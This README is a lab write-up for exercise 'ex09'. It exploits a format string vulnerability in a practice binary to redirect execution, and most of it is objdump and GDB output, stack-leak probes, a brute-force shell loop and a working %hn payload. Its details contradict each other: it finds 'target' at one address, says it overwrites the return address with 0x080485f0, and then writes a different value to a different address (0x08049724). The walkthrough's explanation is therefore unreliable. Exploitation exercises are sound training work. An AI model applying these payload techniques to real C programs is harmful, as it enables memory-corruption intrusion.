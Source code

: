 # ex09 README

## Objective

The goal of this exercise is to exploit a format string vulnerability to redirect code execution and see the message "code execution redirected! you win".

## Steps

### 1\. Identify the `target` Variable Address

We start by finding the address of the `target` variable using the `objdump` tool:

```sh
objdump -t bin | grep target
```

This command provides the address of the `target` variable:

```plaintext
0804973c g     O .bss   00000004              target
```

The address of the `target` variable is `0x0804973c`.

### 2\. Analyze the Binary with GDB

Next, we use GDB to analyze the binary and understand the structure of the `vuln` function:

```sh
gdb -q ./bin
```

Inside GDB, we set a breakpoint at the `vuln` function:

```sh
break vuln
run
```

Disassemble the `vuln` function to understand its structure:

```sh
disassemble vuln
```

Output:

```plaintext
Dump of assembler code for function vuln:
   0x080484d2 <+0>:     push   %ebp
   0x080484d3 <+1>:     mov    %esp,%ebp
   0x080484d5 <+3>:     sub    $0x218,%esp
   0x080484db <+9>:     mov    0x8049730,%eax
   0x080484e0 <+14>:    mov    %eax,0x8(%esp)
   0x080484e4 <+18>:    movl   $0x200,0x4(%esp)
   0x080484eb <+25>:    lea    -0x208(%ebp),%eax
   0x080484f2 <+32>:    mov    %eax,(%esp)
   0x080484f5 <+35>:    call   0x804839c <fgets@plt>
   0x080484fa <+40>:    lea    -0x208(%ebp),%eax
   0x08048500 <+46>:    mov    %eax,(%esp)
   0x08048503 <+49>:    call   0x80483cc <printf@plt>
   0x08048508 <+54>:    movl   $0x1,(%esp)
   0x0804850f <+61>:    call   0x80483ec <exit@plt>
   ```

### 3\. Finding the Correct Offset

To find the correct offset for the format string vulnerability, we tested the binary with different format string inputs to print stack values and locate our input:

```sh
python -c "print('AAAA ' + ' %08x' * 20)" | ./bin
```

Output:

```plaintext
AAAA  00000200 b7782c20 b779e328 41414141 30252020 25207838 20783830 78383025 38302520 30252078 25207838 20783830 78383025 38302520 30252078 25207838 20783830 78383025 38302520 30252078
```

From the output, we observed `41414141` at the 4th position, indicating our offset is 4.

### 4\. Crafting the Payload

Based on the identified offset, we needed to craft a payload to overwrite the return address. The target address of the message "code execution redirected! you win" was identified as `0x080485f0`.

Through a process of trial and error, we crafted a payload to overwrite the return address with the desired address:

1. **Initial Attempts**: We started by attempting to overwrite the return address using simpler payloads to understand the behavior. For example:

    ```sh
    python -c "print('\xf0\x85\x04\x08' + '%x'*10 + '%16930052x' + '%n')" | ./bin
    ```

    This approach resulted in segmentation faults, indicating misalignment or incorrect values.

2. **Systematic Testing**: We automated the process of finding the correct value by looping through potential values:

    ```sh
    for i in $(seq 10000000 10000 20000000); do
      payload=$(python3 -c "print('\xf0\x85\x04\x08' + '%x'*10 + '%${i}x' + '%11\$n')");
      output=$(echo -e "$payload" | ./bin);
      echo "Trying $i";
      if echo "$output" | grep -q "code execution redirected"; then
        echo "Success! Payload: $payload";
        break;
      fi
    done
    ```

3. **Successful Payload**: After several iterations, we found the correct value to print, which resulted in successful code execution redirection:

    ```sh
    python -c 'print "\x24\x97\x04\x08" + "%33968x%4$hn"' | ./bin
    ```

    Output:

    ```plaintext
     200
    code execution redirected! you win
    ```

### Conclusion

By carefully analyzing the binary and using a systematic trial and error approach, we were able to exploit the format string vulnerability and redirect code execution. This exercise demonstrated the power and risk of format string vulnerabilities in C programs.

### Challenges and Learnings

- **Challenge**: Identifying the correct offset and value for the format string.
- **Solution**: Systematically testing different offsets and payloads.
- **Learning**: The importance of understanding format string vulnerabilities and how they can be exploited to redirect code execution.

By following these steps and understanding the exploitation process, we successfully completed the level and redirected code execution to see the message "code execution redirected! you win".
